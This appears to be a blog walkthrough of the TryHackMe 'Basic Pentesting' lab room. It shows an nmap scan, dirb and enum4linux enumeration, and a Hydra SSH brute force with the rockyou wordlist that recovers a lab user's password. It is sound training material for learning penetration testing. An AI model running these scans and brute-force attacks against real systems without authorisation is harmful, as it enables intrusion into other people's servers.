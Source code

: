 ## IoC Skills Bootcamp Week 1 - Basic Pentesting

We kick things off with the [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt) room on tryhackme to get some experience with brute forcing, hash cracking, service enumeration and Linux enumeration.

After setting up a Kali instance on VMware and connecting to the tryhackme network through OpenVPN we are ready to go 👍.

We begin by running nmap to discover which ports are currently open. No switches were required as the standard scan gave us the information we were looking for. 

```
$ nmap 10.10.139.208 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-06 11:13 EST
Nmap scan report for 10.10.139.208
Host is up (0.031s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```
We can see from the nmap scan that port 80 http is open, this might mean there is a website that we are able to look at. 

![Website Snip 1](/docs/assets/basicPentestingSnip1.PNG)

We find out there is a web page being hosted on the target machine. Not much to go from but let's use the Web Developer Tools to check if there is any other information in the raw html that we can gather.

![Website Snip 2](/docs/assets/basicPentestingSnip2.PNG)

There is a comment that implies there are other sections of the website. We can use a web content enumeration tool such as DIRB or DirBuster to scan the site for any hidden folders or files.

```
$ dirb http://10.10.139.208

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Feb  6 13:36:42 2022
URL_BASE: http://10.10.139.208/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.139.208/ ----
==> DIRECTORY: http://10.10.139.208/development/                                      
+ http://10.10.139.208/index.html (CODE:200|SIZE:158)                                 
+ http://10.10.139.208/server-status (CODE:403|SIZE:301)                              
                                                                                      
---- Entering directory: http://10.10.139.208/development/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Feb  6 13:40:40 2022
DOWNLOADED: 4612 - FOUND: 2
```

DIRB was able to find a listable directory named development. Let's check its contents in our web browser. 

![Website Snip 3](/docs/assets/basicPentestingSnip3.PNG)

There are two text notes that we can view. 

![Website Snip 4](/docs/assets/basicPentestingSnip4.PNG)

The first contains some information regarding the server and version number that they are running which may be useful to us. We can also note that Server Message Block has been set up and that there are two users referred to as "K" and "J".

![Website Snip 5](/docs/assets/basicPentestingSnip5.PNG)

The second note talks about "J" using weak password credentials as their hash was able to be cracked "really easily". The mention of /etc/shadow means it is a linux box so we can try enum4linux to enumerate the system for more information.

```
$ enum4linux 10.10.139.208

 ======================================================================== 
|    Users on 10.10.139.208 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 

[I] Found new SID: S-1-22-1
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
The scan found two users, Jay and Kay, which fits in with the intials we saw earlier. We know that Jay has weak password credentials so we will try to brute force his password with the use of Hydra. We will try one of the default password lists (rockyou).

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz 10.10.139.208  ssh

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-06 14:44:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.139.208:22/
[STATUS] 183.00 tries/min, 183 tries in 00:01h, 14344223 to do in 1306:24h, 16 active
[STATUS] 91.00 tries/min, 273 tries in 00:03h, 14344143 to do in 2627:08h, 16 active
[STATUS] 79.71 tries/min, 558 tries in 00:07h, 14343874 to do in 2999:02h, 16 active
[22][ssh] host: 10.10.139.208   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
```
